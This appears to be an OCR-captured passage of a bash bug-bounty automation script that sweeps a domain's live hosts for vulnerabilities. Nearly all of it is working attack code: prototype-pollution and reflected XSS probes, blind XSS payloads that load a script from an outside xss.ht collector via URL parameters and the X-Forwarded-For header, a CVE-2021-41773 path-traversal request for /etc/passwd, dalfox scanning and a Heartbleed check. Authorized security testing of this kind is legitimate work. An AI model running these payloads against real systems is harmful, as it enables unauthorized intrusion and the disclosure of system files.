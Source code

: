 		printf "\n\n----------------------------------------------------------------------------------\n"
		printf "                     \e[33mHTTP parameter pollution Is Starting ...\e[0m                                         "
		printf "\n\n----------------------------------------------------------------------------------\n"

		cat /root/bug_bounty/$domain/alive.txt | sed 's/$/\/?__proto__[testparam]=exploit\//' | page-fetch -j 'window.testparam == "exploit"? "[VULNERABLE]" : "[NOT VULNERABLE]"' | sed "s/(//g" | sed "s/)//g" | sed "s/JS //g" | grep "VULNERABLE" | tee /root/bug_bounty/$domain/recon/vulnerabilities/HPP.txt
		
		printf "\n\n----------------------------------------------------------------------------------\n"
		printf "                     \e[33mXSS EXtration Is Starting ...\e[0m                                         "
		printf "\n\n----------------------------------------------------------------------------------\n"

		cat /root/bug_bounty/$domain/recon/gf/xss.txt | grep "=" |  qsreplace '"><script>confirm(1)</script>' | while read host do ; do curl --silent --path-as-is --insecure "$host" | grep -qs "<script>confirm(1)" && echo "$host \033[0;31mVulnerable\n" || echo "$host \033[0;32mNot Vulnerable\n";done | tee /root/bug_bounty/$domain/recon/vulnerabilities/xss.txt
		

		printf "\n\n----------------------------------------------------------------------------------\n"
		printf "                     \e[33mBlind Xss Is Starting ...\e[0m                                                            "
		printf "\n\n----------------------------------------------------------------------------------\n"

		cat /root/bug_bounty/$domain/recon/wayback/valid.txt | grep "&" | bxss -appendMode -payload '"><script src=https://ligralog.xss.ht></script>' -parameters     

		cat /root/bug_bounty/$domain/alive.txt | bxss -payload '"><script src=https://ligralog.xss.ht></script>' -header "X-Forwarded-For"
		
		printf "\n\n----------------------------------------------------------------------------------\n"
		printf "                     \e[33mCVE-2021-41773 Is Starting ...\e[0m                                          "
		printf "\n\n----------------------------------------------------------------------------------\n"
		
		cat /root/bug_bounty/$domain/alive.txt | while read host do ; do curl --silent --path-as-is --insecure "$host/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd" | grep "root:*" && echo "$host \033[0;31mVulnerable\n" || echo "$host \033[0;32mNot Vulnerable\n" | tee /root/bug_bounty/$domain/recon/vulnerabilities/lfi.txt ;done

		printf "\n\n----------------------------------------------------------------------------------\n"
		printf "                     \e[33mDalfox Is Starting ...\e[0m                                                  "
		printf "\n\n----------------------------------------------------------------------------------\n"

		cat /root/bug_bounty/$domain/alive.txt |  dalfox pipe | tee /root/bug_bounty/$domain/recon/vulnerabilities/dalfox_xss.txt  

		printf "\n\n----------------------------------------------------------------------------------\n"
		printf "                     \e[33mHeartBlead Is Starting ...\e[0m                                              "
		printf "\n\n----------------------------------------------------------------------------------\n"

		cat /root/bug_bounty/$domain/alive.txt | while read line ; do echo "QUIT" | openssl s_client -connect $line:443 2>&1 | grep 'server extension "heartbeat" (id=15)' || echo $line: safe  >> /root/bug_bounty/$domain/recon/vulnerabilities/heardbled.txt | grep safe; done
